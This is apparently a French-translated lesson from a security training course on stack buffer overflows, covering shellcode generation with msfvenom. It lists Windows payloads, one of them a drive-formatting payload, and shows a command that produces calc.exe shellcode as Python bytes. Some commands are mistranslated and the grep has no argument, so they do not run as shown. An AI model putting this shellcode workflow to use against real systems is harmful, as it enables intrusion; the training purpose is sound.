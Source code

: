 Passer au Shellcode
====================

* * * * *

Jusqu'à présent, dans notre exercice d'identification et d'exploitation d'une vulnérabilité de débordement de tampon basée sur la pile, nous avons effectué les opérations suivantes :

1. Fuzz paramètres
2. Prendre controle de EIP
3. Identifier les mauvais Chars
4. Trouver une instruction de retour

La dernière étape consiste à écrire du shellcode sur la pile qui est exécuté lorsque les adresses de retour que nous avons trouvées plus tôt sont exécutées puisque nous recherchons des adresses d'instructions qui exécutent le code écrit en haut de la pile.

* * * * *

Génération de shellcode
--------------------

Nous avons discuté en détail de la génération de shellcode dans le module [Introduction au langage d'assemblage](https://academy.hackthebox.com/course/preview/intro-to-assembly-language) et des différentes méthodes pour le faire. Dans certains cas, nous pouvons nous retrouver limités à un espace tampon très court, où nous n'aurions pas beaucoup d'octets sur lesquels écrire et pourrions devoir utiliser l'une des méthodes décrites pour générer un shellcode court. Cependant, nous avons affaire à des milliers d'octets de mémoire tampon dans notre cas, nous n'aurions donc pas à nous soucier de ces limitations.

Ainsi, pour générer notre shellcode, nous utiliserons `msfvenom`, qui peut générer des shellcodes pour les systèmes Windows, tandis que des outils comme `pwntools` ne prennent actuellement en charge que les shellcodes Linux.

Tout d'abord, nous pouvons répertorier toutes les charges utiles disponibles pour "Windows 32 bits", comme suit :

```
dsgsec@htb[/htb]$ msfvenom -l charges utiles | grep

...COUPER...
     windows/exec Exécute une commande arbitraire
     windows/format_all_drives Cette charge utile formate tous les disques montés dans Windows (alias ShellcodeOfDeath). Après le formatage, cette charge utile définit le nom de volume sur la chaîne spécifiée dans l'option VOLUMELABEL. Si le code ne parvient pas à accéder à un lecteur pour
     windows/loadlibrary Charger un chemin de bibliothèque arbitraire
     windows/messagebox Génère une boîte de dialogue via MessageBox en utilisant un titre, un texte et une icône personnalisables
...COUPER...

```

Pour le test initial, essayons `windows/exec` et exécutons `calc.exe` pour ouvrir la calculatrice Windows si notre exploit réussit. Pour ce faire, nous utiliserons `CMD=calc.exe`, `-f 'python'` puisque nous utilisons un exploit python, et `-b` pour spécifier les caractères incorrects :

```
dsgsec@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'

...COUPER...
buf = b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
...COUPER...

```
